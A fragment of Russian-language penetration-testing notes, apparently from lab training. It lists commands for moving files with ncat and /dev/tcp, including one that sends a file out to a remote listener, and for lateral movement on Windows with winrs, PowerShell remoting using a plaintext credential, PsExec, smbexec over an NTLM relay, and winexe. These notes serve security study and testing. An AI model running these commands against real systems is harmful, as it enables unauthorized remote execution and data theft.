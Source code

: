 или можно отправить - cat some_stuff.txt > /dev/tcp/10.10.14.7/43210

Когда закончится передача, обе сессии ncat завершаться.

Как загрузить файл с удалённого компьютера
Предположим, мне нужно скачать с удалённого компьютера файл some_stuff.txt. Тогда на сервере я запускаю:
ncat -l 43210 < some_stuff.txt
А на локальном компьютере, куда будет скачен файл, запускаю Ncat следующим образом:
ncat 185.26.122.50 43210 > some_stuff.txt



# Библиотека импакет

git clone https://github.com/SecureAuthCorp/impacket.git

https://habr.com/ru/companies/ruvds/articles/743444/  (Описание импакета)


# выполнение CMD на удаленной машине разными портами

ВиинРМ из виндовс

		winrs.exe -u:Administrator -p:Mypass123 -r:target cmd

# Мы можем добиться того же с помощью Powershell, но для передачи других учетных данных нам нужно будет создать объект PSCredential:

$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

Получив объект PSCredential, мы можем создать интерактивный сеанс с помощью командлета Enter-PSSession:

Enter-PSSession -Computername TARGET -Credential $credential

Powershell также включает командлет Invoke-Command, который удаленно запускает ScriptBlocks через WinRM. Учетные данные также должны передаваться через объект PSCredential:

Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}




PSEXEC ПО БЕЛЕТУ PSExec.exe -accepteula \\sql01.inlanefreight.local cmd
smbexec через ntlmrelay  proxychains4 -q smbexec.py INLANEFREIGHT/PETER@172.16.117.50 -no-pass

https://www.thehacker.recipes/a-d/movement/ntlm/pth

winexe -U 'admin%password123' //10.10.0.66 cmd.exe

(ПО БЕЛЕТУ)

PSExec.exe -accepteula \\sql01.inlanefreight.local cmd  
